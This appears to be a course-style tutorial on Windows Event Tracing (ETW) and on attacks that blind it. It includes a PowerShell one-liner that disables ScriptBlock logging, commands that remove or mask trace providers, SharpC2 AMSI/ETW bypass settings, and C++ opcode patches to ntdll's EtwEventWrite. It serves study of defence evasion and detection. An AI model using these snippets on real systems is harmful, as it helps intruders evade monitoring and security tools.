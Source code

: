 Prerequisite:

- Knowledge of low-level application programming.
- Knowledge of Windows architecture

# What is ETW ? 


ETW  (Event Tracing for Windows) ETW will allow you to monitor events on a programmed application by storing user or kernel events in logs. It is possible to view these logs later or in real time. ETW is an integral part of the Windows Performance Toolkit (WPT), WPT is what contains most of the monitoring tools on Windows. ETW is also used for EDR deployment.

When a ETW Session is opened to listen events, all the events are stored in a file called Event Trace Log (ETL)

ETW API .NET : https://www.nuget.org/packages/Microsoft.Windows.EventTracing.Processing.All

ETW uses WPA and WPR to manage and present the events in a clean way. WPA (Windows Performance Analyzer) will consult the ETL files produced by the active applications (Provider) of an ETW session to create graphs and tables, so that the rendering is clean.

WPR (Windows Performance Recorder) acts as a session controller, it will start and stop the session and can select the ETW events to be recorded. WPRP files can be created to create custom profiles, in order to start ETW sessions by following very precise events.


![image](https://user-images.githubusercontent.com/75935486/153571218-c549be1e-e4e0-42f2-86d2-a65007d71707.png)


[Creating Recording Profiles | Microsoft Documents](https://docs.microsoft.com/en-us/windows-hardware/test/wpt/authoring-recording-profiles)
[WPT Getting Started | Microsoft Documents](https://docs.microsoft.com/en-us/windows-hardware/test/wpt/wpt-getting-started-portal)
[Event Tracing - Win32 apps | Microsoft Docs](https://docs.microsoft.com/en-us/windows/win32/etw/event-tracing-portal)


### ETW Logman Enumeration :

Logman is a tool that allows windows users to see which ETW sessions are active as well as the providers of its logs.

Here you can see all active powershell providers like AMSI:

```powershell
PS> tasklist | findstr powershell
PS> logman query providers -pid <pid>
PS> logman query providers # here we will list all providers without exceptions
```
![image](https://user-images.githubusercontent.com/75935486/153571271-52625701-bb5a-49d3-b703-f39050f60286.png)

if you want to delete all active providers from the AutoLogger:
```powershell
PS> Remove-EtwTraceProvider -AutologgerName EventLog-Application -Guid {GUID}
```
An AutoLogger is a Trace Session that records provider events in kernel mode and user mode.

disable ETW (logging ScriptBlock) :
```powershell
[Reflection.Assembly]::LoadWithPartialName('System.Core').GetType('System.Diagnostics.Eventing.EventProvider').GetField('m_enabled','NonPublic,Instance').SetValue([Ref].Assembly.GetType('System.Management.Automation.Tracing.PSEtwLogProvider').GetField('etwProvider','NonPublic,Static').GetValue($null),0)
```

to list all ETW sessions, run this command.
```powershell
PS> logman -ets
```

###### EVENT_ENABLE_PROPERTY_IGNORE_KEYWORD_0 :

```powershell
Set-EtwTraceProvider -Guid {GUID} -AutologgerName 'EventLog-Application' -Property 0x11
```

this allows not to display the events having the value KEYWORD 0

#### Attacks against ETW : 

different methods of attack against ETW :

![image](https://user-images.githubusercontent.com/75935486/153571308-01ef3870-b6f4-4248-8c6e-f0b5ed011881.png)

- __*red*__ : shows attacks on ETW from inside a malicious process.
- __*Light blue*__ : shows attacks on ETW by modifying environment variables, registry and files
- __*Orange*__ : shows attacks against ETW providers in user mode
- __*Dark blue*__ : shows attacks against ETW providers in kernel mode
- __*Violet*__ : shows attacks on ETW sessions.

The total number of possible attacks against ETW would be 36 but in this course we will only see the red, orange and light blue attacks.
Some offensive operations (Red Team) have used attack techniques against ETW, for example APT42 has disabled ETW, APT Slingshot has renamed ETLs to leave no trace and the lockerGoga ransomware has disabled ETW to bypass host-based sensors like HIDS, HIPS...


Some C2's have implemented ETW bypass functions, for example SharpC2 :
```apm
[drones] > interact a47153bd55 
[a47153bd55] > help 
Name           Description 
----           ----------- 
abort            Abort a running task 
back             Go back to the previous screen 
bypass           Set a directive to bypass AMSI/ETW on tasks 
cat              Read a file as text 
cd               Change working directory 
execute-assembly Execute a .NET assembly 
exit             Exit this Drone
```
once you have compromised the victim, you can interact with the drone, *bypass* Tells the drone whether or not it should attempt to bypass AMSI and/or ETW when executing post-exp commands. The drone uses the built-in MinHook.NET library to connect `amsi.dll!AmsiScanBuffer` and `ntdll.dll!EtwEventWrite`.

###### Post-Exploitation Custom C2Profile, Bypass AMSI/ETW :

SharpC2 uses C2 profiles to customize certain actions. Profiles are in YAML format and have 3 key/objects, Stage, PostExploitation and ProcessInjection.
```yaml
Stage: 
   SleepTime: 5 
   SleepJitter: 0 
   DllExport: Execute 
   SendStandardApi: true 
PostExploitation: 
   BypassAmsi: false 
   BypassEtw: false 
   SpawnTo: C:\Windows\System32\notepad.exe 
   AppDomain: SharpC2 
ProcessInjection: 
   Allocation: NtWriteVirtualMemory 
   Execution: RtlCreateUserThread
```

the **BypassAmsi/BypassEtw** values tell the drone whether or not it should attempt to bypass the AMSI and ETW during post-ex tasks.
can also be used at runtime with the bypass command.


###### ETW EtwEventWrite Patching :
![image](https://user-images.githubusercontent.com/75935486/153571358-b1ec7fd7-d66f-4e0e-8afc-1c137b0536b6.png)

we can do what we call Function patching with the RET instruction.

This code allows to disable the ETW event tracking in user-mode,
NTDLL is the most basic layer of User-Mode. NTDLL includes a large list of functions used for the proper functioning of Windows in different versions of microprocessor (x86, x64, wow64...). NTDLL includes the `EtwEventWrite` function.

The EtwEventWrite function is responsible for writing events to a session. Since *EtwEventWrite* works in user-mode, an attacker can bypass ETW. the function normally ends with `ret 0x14`.

since Event Tracking ends with `EtwEventWrite` to write events, if you rewrite the same assembly code at the beginning of the `EtwEventWrite()` function, no events will be recorded.

![image](https://user-images.githubusercontent.com/75935486/153571624-28b40c4b-9cde-4110-bfc2-676d3a6f3c86.png)

in this code above we get the address of the *EtwEventWrite* function from NTDLL and we modify the permissions of this memory segment with VirtualProtect() by defining the perms RWX (Read Write Exec)
and memcpy will be used to copy the opcode for a return to the buffer.


![image](https://user-images.githubusercontent.com/75935486/153571513-3b193861-d3f7-428e-995b-cc5af6045719.png)

(64 bits)
you can see that the return value is `c3` (\xc3) and so `x48\x33\xc0` is the application of *XOR* on the *rax* register for all clear.


in the other opcode sequence (32 bits), `x33\xc0\xc2\x14\x00`, 
![image](https://user-images.githubusercontent.com/75935486/153571571-a39a59ee-68bb-4985-9b49-bf8bda2bac61.png)

you can see that the return value is c21400 which is `xc2\x14\x0` for `ret 14h` and `x33\xc0` for *xor* the *EAX* register

we can also use the preprocessors `#ifdef`, `#else`, `#endif` if we want to adapt the opcode according to the versions.
```cpp
#ifdef _WIN64
        memcpy(addr, "\x48\x33\xc0\xc3", 4); // xor rax, rax; ret
#else
        memcpy(addr, "\x33\xc0\xc2\x14\x00", 5); // xor eax, eax; ret 14
#endif
```

results:

![image](https://user-images.githubusercontent.com/75935486/153571594-e1df4d49-d7af-4423-87fe-93c0f1f24fbf.png)
